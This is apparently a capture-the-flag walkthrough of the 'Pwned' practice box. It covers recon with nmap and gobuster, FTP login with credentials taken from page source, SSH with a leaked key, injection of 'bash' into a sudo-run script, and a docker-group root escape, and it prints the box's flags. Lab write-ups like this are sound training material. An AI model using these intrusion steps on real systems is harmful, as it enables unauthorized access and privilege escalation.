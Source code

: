 # Pwned (Easy)

>MrMidnight | 16.August.2022

----------

### Target IP: 192.168.1.106

## 1. Reconz
Alright first lets do the recon:

```bash
nmap -sC -sV -oA scans/Nmap/target 192.168.1.106
```

A http server is running on its default port and a frp server on port 21.
The website shows nothing interesting and nothing in the source code. So lets do a gobuster scan:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.106  -o scans/Gobuster/gobuster
```

The result came out with:

```
/nothing              (Status: 301) [Size: 316] [--> http://192.168.1.106/nothing/]
/server-status        (Status: 403) [Size: 278]
/hidden_text          (Status: 301) [Size: 320] [--> http://192.168.1.106/hidden_text/]
```

Inside /nothing is well you guessed it, nothing importent. But in the /hidden_text, we can find a dictionary called secret.dic. We can download the file via wget:

```bash
wget http://pwned.hmv/hidden_text/secret.dic
```

Lets scan the url again with the dictionary:

```bash
gobuster dir -w secret.dic -u http://192.168.1.106  -o scans/Gobuster/gobuster2
```

It returns with "/pwned.vuln". So lets visit that. In the dir, we can find a login page. The credentials for the login is in the source code:

>User: ftpuser
>Passwd: B0ss_B!TcH


## 2. Login as ariana
We dont even need to login into the page. All we need to do is login into the ftp server:

```bash
ftp 192.168.1.106
```

After a success login, we can find a note and a ssh key in the shared directory. The note file reveals the user, which is "ariana". With both info, we can ssh into the target:

```bash
chmod 600 id_rsa
ssh -i id_rsa ariana@192.168.1.106
```

Since this box is more like an ctf, there is 2 USER-FLAGS. Submitting one of them will be fine.

## FIRST-USER-FLAG

>fb8d98be1265dd88bac522e1b2182140



## 3. Enum and priv esc for second user

Executing "sudo -l" shows that we can exec /home/messenger.sh as the second user "selena" with no password:

```bash
cd /home
sudo -u selena ./messenger.sh
```

Just enter "bash" for username and "bash"  to get an bash shell as selena. 

```
ariana:
selena:
ftpuser:

Enter username to send message : bash

Enter message for bash :bash
python3 -c 'import pty;pty.spawn ("/bin/bash")'
selena@pwned:/home$ whoami
selena
```

## SECON-USER-FLAG
>711fdfc6caad532815a440f7f295c176

## 4. Priv esc to root

The selena user is a part of the docker group, when we show the "id". This means we can just get an root shell by running this command:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

[This article]([docker-privesc | Privilege escalation in Docker (flast101.github.io)](https://flast101.github.io/docker-privesc/)) will tell you how it works.

## ROOT-FLAG
>4d4098d64e163d2726959455d046fd7c